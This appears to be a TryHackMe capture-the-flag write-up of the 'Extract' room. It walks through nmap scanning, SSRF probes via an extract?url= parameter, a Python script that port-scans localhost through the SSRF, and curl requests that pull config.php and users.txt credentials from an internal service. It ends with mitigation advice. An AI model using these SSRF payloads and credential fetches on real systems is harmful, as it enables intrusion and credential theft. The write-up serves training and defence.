 ```yaml
---
title: "TryHackMe: Extract"
date: 2025-08-25
description: "Extract started with discovering a Server-Side Request Forgery (SSRF) vulnerability and using it to discover an internal service running on the machine."
categories: ["TryHackMe"]
tags: ["web", "ssrf", "internal-services", "port-scanning"]
image: "/images/writeups/extract-thumb.jpg"
difficulty: "Medium"
platform: "TryHackMe"
author: "Adithya Kallaje"
---
```


# TryHackMe: Extract Writeup

![Extract Banner](/images/writeups/extract-banner.jpg)

## Overview

Extract is a medium-difficulty TryHackMe room that demonstrates Server-Side Request Forgery (SSRF) vulnerabilities and how they can be used to discover and interact with internal services.

## Initial Reconnaissance

### Port Scanning
```bash
nmap -sC -sV -p- 10.10.x.x
```

**Open Ports:**
- 22/tcp - SSH
- 80/tcp - HTTP

### Web Application Analysis

The web application appeared to be a file extraction service that accepts URLs and processes files from remote locations.

## SSRF Discovery

### Testing for SSRF
```bash
# Test internal network access
http://10.10.x.x/extract?url=http://127.0.0.1:22
http://10.10.x.x/extract?url=http://127.0.0.1:80
```

The application was vulnerable to SSRF, allowing us to:
1. Scan internal ports
2. Access localhost services
3. Bypass firewall restrictions

### Internal Port Scanning via SSRF

```python
import requests

target = "http://10.10.x.x"
for port in range(1, 65535):
    url = f"{target}/extract?url=http://127.0.0.1:{port}"
    response = requests.get(url)
    if "Connection refused" not in response.text:
        print(f"Port {port} is open")
```

## Exploitation

### Discovered Internal Service

The SSRF scan revealed an internal service running on port 8080 that was not accessible externally.

```bash
# Access internal service via SSRF
curl "http://10.10.x.x/extract?url=http://127.0.0.1:8080"
```

### File Extraction

The internal service contained sensitive files that could be extracted:

```bash
# Extract configuration files
curl "http://10.10.x.x/extract?url=http://127.0.0.1:8080/config.php"

# Extract user credentials
curl "http://10.10.x.x/extract?url=http://127.0.0.1:8080/users.txt"
```

## Lessons Learned

- **SSRF Prevention**: Always validate and sanitize URL inputs
- **Network Segmentation**: Internal services should be properly isolated
- **Input Validation**: Never trust user-provided URLs without proper filtering

## Mitigation Strategies

1. **Whitelist allowed domains**
2. **Block internal IP ranges**
3. **Use proper URL parsing**
4. **Implement network segmentation**

## Tools Used

- Nmap
- Burp Suite
- Custom Python scripts
- cURL

---

**Difficulty**: Medium  
**Platform**: TryHackMe  
**Completion Date**: August 25, 2025
